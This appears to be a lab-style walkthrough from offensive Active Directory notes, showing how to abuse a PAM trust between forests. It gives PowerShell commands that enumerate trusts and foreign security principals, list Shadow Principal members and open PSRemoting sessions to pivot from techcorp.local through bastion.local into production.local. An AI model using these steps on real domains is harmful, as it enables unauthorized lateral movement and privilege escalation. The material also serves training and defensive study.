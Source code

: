 # 🟢 AbusingPAM Trust

Cross Domain Attacks leverage trust relationships between different domains or forests to escalate privileges or gain unauthorized access. Specifically, abusing Privileged Access Management (PAM) Trust involves exploiting the trust established for managing privileged accounts and access within or across Active Directory environments.

Privileged Access Management trusts are designed to isolate the management of privileged accounts to enhance security.&#x20;

However, attackers with administrative access in one domain (e.g., `ad-attacks.local`) can exploit these trusts to gain access to resources in a trusted domain or forest (e.g., `bastion.local`).

Attackers enumerate trusts to identify paths for privilege escalation or lateral movement:

```powershell
Get-ADTrust -Filter *
```

Then, by targeting `foreignSecurityPrincipal` objects, attackers can discover and exploit cross-forest permissions:

```powershell
Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"} -Server bastion.local
```

These techniques reveal potential attack paths, allowing attackers to pivot across trusts, compromising additional domains or forests under certain conditions.

### PowerShell

#### 1. Enumerating trusts and hunting for access

> We have DA access to the **techcorp.local** forest. By enumerating trusts and hunting for access, we can enumerate that we have Administrative access to the **bastion.local** forest.

```
# PowerView
# From techcorp-dc
Get-ADTrust -Filter * 
Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"} -Server bastion.local
```

#### 2. Enumerate if there is a PAM trust

```
# PowerView
$bastiondc = New-PSSession bastion-dc.bastion.local 
Invoke-Command -ScriptBlock {Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined - eq $False)}} -Session $bastiondc
```

#### 3. Check which users are members of the Shadow Principals

```
Invoke-Command -ScriptBlock {Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl} -Session $bastiondc
```

#### 4. Establish a direct PSRemoting session on bastion-dc and access production.local

```
Enter-PSSession 192.168.102.1 -Authentication NegotiateWithImplicitCredential
```
